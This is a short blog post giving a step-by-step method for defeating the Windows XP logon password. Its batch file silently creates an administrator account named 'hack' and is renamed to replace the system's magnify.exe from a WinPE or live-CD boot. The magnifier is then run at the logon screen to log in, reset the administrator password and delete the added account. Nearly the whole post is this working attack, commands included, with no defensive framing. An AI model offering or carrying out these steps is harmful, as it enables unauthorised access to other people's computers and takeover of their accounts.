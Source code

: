 ```yaml
---
layout: post
title: "Hack windows xp logon password"
description: ""
category: windows
tags: [windows]
---
```


### Hack steps:  
1.create a batch file, name magnify.bat
  add code as below:

    @net user hack 123456 /add
    
    @net localgroup administrators hack /add
    
    @exit

2.convert magnify.bat to magnify.exe by 
  bat2com.exe and com2exe.exe, then use 
  command as below:

    bat2com.exe magnify.bat

    com2exe.exe magnify.com

3.replace file c:/windows/system32/magnify.exe
  there are many ways to done this, one way is 
  burn a WinPE system to a U-disk, then login 
  the WinPE syste to replace it, you can use 
  other system(such as linux live CD) also; 
  another way is mount the hard disk to other 
  computer to do it.

4.power on computer, type win+u to run magnify
  at the logon screen. select and run the magnify program 

5.use hack to login, then change the password of
  administrator and delete hack in command line.
  use commands as below:

    net user (list user)

    net localgroup administrators (list user belong to administrators group)

    net user administrator 123456 (modify password)

    net user hack /del (delete user)

6.reboot and enjoy.

### Reference:  
+ [得到WindowsXP管理员权限的有效方法](https://www.doorcome.com/?p=42)
+ [Password Clearing: Clearing out any windows password](http://www.computersecuritystudent.com/FORENSICS/Password_Clearing/lesson1/index.html)
+ [Offline windows password & Registry editor](http://www.pogostick.net/~pnh/ntpasswd/)

